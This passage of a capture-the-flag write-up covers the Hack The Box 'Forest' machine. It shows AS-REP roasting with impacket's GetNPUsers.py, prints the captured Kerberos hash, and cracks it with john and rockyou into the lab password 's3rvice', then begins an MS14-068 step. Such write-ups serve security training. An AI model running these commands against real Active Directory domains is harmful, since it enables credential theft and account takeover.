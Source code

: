 In order to use [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`
we need to add an entry in our `/etc/hosts`.

    :::text
    cat /etc/hosts
    127.0.0.1	localhost
    127.0.1.1	kalili
    10.10.10.161	htb.local
    10.10.10.161	forest.htb.local

And we launch [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`.

    :::text
    python GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format john
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    $krb5asrep$svc-alfresco@HTB.LOCAL:bcd2217d8b5e6884e25d8b2860dd0380$40be3fda5f8fd984f9c576d5dfa33f37effc76b0fbff3ae28a747825c3559bfea4a6a23ad1c0add8ad61d149a5ccc2e79919de9b78e8720b3dc79af96364fb6f5d7e0235eb83850765023a30de6d172c82ec751f50f4c6e4971cb54a46e16ec2d3a41b9f44b6b8e85782d958c3ff665baa5b29d8c5b4516ec1b63f7c63b55c5fa74b7b1b5fe1fa04cddac6812d0ef37f1e25ab8e8005fe7f6ce949786435c41a2395e73e9bf1de57e3a2da12a00f9da25408e92a37a5ed2dacdbbf3846963000f7b2f8d337d152345a9cc7358b5d45224abeac179f081b9b329e549659da00ac791a7fde1a8c
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] invalid principal syntax

We crack the password using john and the rockyou dictionary. The user's
password is "s3rvice".

    :::text
    john hashes -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:02 11.59% (ETA: 11:52:21) 0g/s 913958p/s 913958c/s 913958C/s eddie707..eck1956
    s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
    1g 0:00:00:04 DONE (2019-10-24 11:52) 0.2237g/s 914040p/s 914040c/s 914040C/s s401413..s3r1bu
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

## MS14-068

In order to run MS14-068 we need the SUID of our user. We enumerate them using
metasploit. Our user SID is `S-1-5-21-3072663084-364016917-1341370565-1147` (domain
SID-User RID).
